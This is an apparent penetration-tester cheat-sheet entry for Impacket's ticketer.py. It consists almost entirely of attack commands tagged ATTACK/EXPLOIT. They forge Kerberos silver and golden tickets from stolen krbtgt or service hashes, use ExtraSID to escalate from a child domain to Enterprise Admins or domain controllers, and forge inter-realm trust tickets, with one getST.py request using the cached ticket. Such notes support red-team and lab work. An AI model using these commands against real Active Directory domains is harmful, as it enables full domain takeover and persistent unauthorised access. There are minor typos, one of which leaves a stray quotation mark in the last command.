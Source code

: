 # ticketer (imp)

% impacket-kerberos, windows, kerberos, 88



## silver ticket
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <krbtgt_nthash> -domain-sid <domain_sid> -domain <domain_fqdn> -spn <SPN> -user-id <user_rid|500> <user|administrator>
```

## golden ticket  
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <krbtgt_hash> -domain <domain_fqdn> -domain-sid <domain_sid> -user-id <user_rid|500> <user|administrator>
```

## golden + ExtraSID (parent-child)  (nthash)
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
if user = administrator no need of -user-id
```
ticketer.py -nthash <krbtgt_nthash>  -domain-sid <src_domain_sid> -domain <src_domain_fqdn> -extra-sid <dst_domain_sid>-<rid|519> -user-id <user_rid> <user|jubeaz>
```

## golden + ExtraSID (parent-child) (dc account)
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <krbtgt_nthash> -domain-sid <child_somain_sid> -domain <src_domain_fqdn> -extra-sid <dst_domain_sid>-<rid|516> -user-id <dc_rid>  '<dc_name>$'
```

## (golden) Inter-Realm TGT    
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
    export KRB5CCNAME=/tmp/jubeaz.ccache   
    getST.py -k -no-pass -spn <cifs>/<dc_fqdn> <src_domain_fqdn>/<user>@<domain_fqdn> -debug
```
ticketer.py -nthash <trust_nthash> -domain-sid <src_domain_sid> -domain <src_domain_fqdn> -extra-sid <dst_domain_sid>-<RID|519>" -spn "krbtgt/<dest_domain_fqdn>" -user-id <user_rid> <user|jubeaz>
```